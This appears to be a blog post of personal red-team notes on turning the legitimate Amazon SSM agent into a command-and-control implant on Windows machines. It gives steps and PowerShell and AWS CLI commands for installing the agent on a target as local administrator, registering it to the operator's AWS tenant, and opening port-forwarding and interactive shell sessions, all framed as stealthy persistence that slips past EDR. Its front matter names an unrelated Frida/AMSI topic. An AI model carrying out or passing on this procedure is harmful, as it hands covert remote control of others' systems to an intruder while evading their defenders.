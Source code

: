 ```yaml
---
title: Frida vs. AMSI
description: Let's use Frida to explore all the different ways we can patch or break the Anti-Malware Scan Interface.
date: 2025-05-28
permalink: /blogs/aws-ssm-c2
---
```


# Using Amazon SSM as a C2 implant (Windows)

From my personal notes. 

Communication with the AWS API is often ignored by EDR, and the SSM agent is a legitimate utility that has a business use case in many environments. Using standard enterprise tooling instead of signature C2 frameworks is a great way to maintain stealthy persistence in a heavily monitored environment.

Step 1: Clone from [https://github.com/aws/amazon-ssm-agent](https://github.com/aws/amazon-ssm-agent) and build for Windows.  
Step 2: Transfer all binaries from appropriate release folder to target machine. Put them in `C:\Program Files\Amazon\SSM\` as a local administrator.  
Step 3: Log into the AWS console for your own tenant. Navigate to Systems Manager, and from there to *Hybrid Activations*.  
Step 4: Create a new hybrid activation. Record the activation code and ID.  

Step 5: If required, set proxy information on the target machine:

```powershell
set http_proxy=http://hostname:port
set https_proxy=http://hostname:port
```

Step 6: Using a local administrator account, register the target machine with AWS:

```powershell
.\amazon-ssm-agent.exe -region "<region>" -id "<activation id>" -code "<activation code>" -register
```

Step 7: Invoke the agent as a local administrator:

```powershell
.\amazon-ssm-agent.exe
```

You can now invoke run documents remotely on the machine as long as the agent is running. For example, to set up port forwarding:

```sh
aws ssm start-session --target <instance-id> --document-name AWS-StartPortForwardingSession --parameters '{"portNumber":["80"],"localPortNumber":["9999"]}'
```

If you want to use the interactive session manager shell (Windows Server only), go to [https://github.com/rprichard/winpty/](https://github.com/rprichard/winpty/) and download the latest release. Then transfer `winpty.dll` and `winpty-agent.exe` to:

- `C:\Program Files\Amazon\SSM\Plugins\SessionManagerShell\`
